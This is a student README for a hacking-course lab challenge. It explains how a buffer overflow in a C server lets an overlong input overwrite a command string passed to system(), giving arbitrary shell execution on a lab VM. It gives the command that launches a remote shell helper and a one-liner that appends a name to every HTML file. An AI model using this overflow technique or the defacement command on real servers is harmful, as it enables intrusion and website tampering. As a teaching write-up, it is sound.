

# MU CHALLENGE (INF473X The Hacking Xperience)

## Run commands

Run `python3 shell.py 192.168.56.101 1234` to launch a fake terminal of the VM :


Then, type `cd ; for i in $(find . -name *.html); do echo '<p>YOUR NAME</p>' >>  $i; done` to add `YOUR NAME` at the bottom of the HTML page.


## Explanations

The final goal of this challenge is to manage to write our name on the html page hosted at the IP address `192.168.56.101`.

Let's look at the 3 first strings declared at the beginning of the code source :
```
char buf[256] = {0};
char command[] = "uptime | sed 's/.*up \[^,]*\, .*/\\1/'";
char greeting_text[128];
...
strcat(greeting_text, buf);
...
system(command);
```
`buf` contains the data sent by a client and is then copied in `greeting_text`. By experimentation, sending a too long name to the VM breaks the latter's answer about the duration the computer has been running. As `greeting_text` has a smaller length in the memory than `buf`, copying `buf` may dangerously overwrite `command` which would be stored right after `greeting_text` in the memory then. Thus, a vulnerability is to send a big enough amount of data to the server until overwritting `command` and run whatever shell command one wants on the VM.

The file _shell.py_ is a terminal-like program of the VM. By executing `python3 shell.py 192.168.56.101 1234`, one will be able to run shell commands on the VM as if he/she was actually typing in the VM's terminal. To add a name to the page hosted at the IP address `192.168.56.101`, just type `cd ; for i in $(find . -name *.html); do echo '<p>YOUR NAME</p>' >>  $i; done` in the "hacked terminal"; this command finds all HTML files and edits them by ending at the end `YOUR NAME`.
